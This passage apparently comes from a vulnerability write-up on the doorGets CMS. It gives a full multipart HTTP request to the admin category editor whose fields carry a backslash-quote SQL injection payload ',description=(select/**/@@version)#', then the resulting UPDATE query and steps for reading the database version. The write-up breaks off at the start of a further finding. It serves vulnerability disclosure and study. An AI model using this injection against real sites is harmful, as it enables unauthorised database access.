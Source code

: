 DNT: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymALW1Ky0ACpF8w2Z
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://127.0.0.1:8003/dg-user/?controller=modulecategory&uri=blog&id=1&lg=en&action=edit
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=6laloptc1mdug324doe9j3g1n6
Connection: close

------WebKitFormBoundarymALW1Ky0ACpF8w2Z
Content-Disposition: form-data; name="modulecategory_edit_token"

143905cb580036528c8.10480003
------WebKitFormBoundarymALW1Ky0ACpF8w2Z
Content-Disposition: form-data; name="modulecategory_edit_langue"

en
------WebKitFormBoundarymALW1Ky0ACpF8w2Z
Content-Disposition: form-data; name="modulecategory_edit_id_parent"

0
------WebKitFormBoundarymALW1Ky0ACpF8w2Z
Content-Disposition: form-data; name="modulecategory_edit_nom"

test1\
------WebKitFormBoundarymALW1Ky0ACpF8w2Z
Content-Disposition: form-data; name="modulecategory_edit_titre"

,description=(select/**/@@version)#
------WebKitFormBoundarymALW1Ky0ACpF8w2Z
Content-Disposition: form-data; name="modulecategory_edit_description"

test3
------WebKitFormBoundarymALW1Ky0ACpF8w2Z
Content-Disposition: form-data; name="modulecategory_edit_uri"

blog-test1-en
------WebKitFormBoundarymALW1Ky0ACpF8w2Z
Content-Disposition: form-data; name="modulecategory_edit_meta_titre"

test2
------WebKitFormBoundarymALW1Ky0ACpF8w2Z
Content-Disposition: form-data; name="modulecategory_edit_meta_description"

test3
------WebKitFormBoundarymALW1Ky0ACpF8w2Z
Content-Disposition: form-data; name="modulecategory_edit_meta_keys"


------WebKitFormBoundarymALW1Ky0ACpF8w2Z
Content-Disposition: form-data; name="modulecategory_edit_submit"

Save
------WebKitFormBoundarymALW1Ky0ACpF8w2Z--
```
此时数据库执行的语句为：
```UPDATE `_categories_traduction` SET langue = 'en', nom = 'test1\', titre = ',description=(select/**/@@version)#', description = 'test3', uri = 'blog-test1-en', meta_titre = 'test2', meta_description = 'test3', meta_keys = '' WHERE id = '1'  LIMIT 1  ;```

Re-visit ```http://domain.com/dg-user/?controller=modulecategory&uri=blog&lg=en``` and enter the one just modified, you can get the current database version by SQL injection:

![68.png](./img/68.png)


**[18]**

In \doorgets\app\requests\user\configurationRequest.php:

![69.png](./img/69.png)
```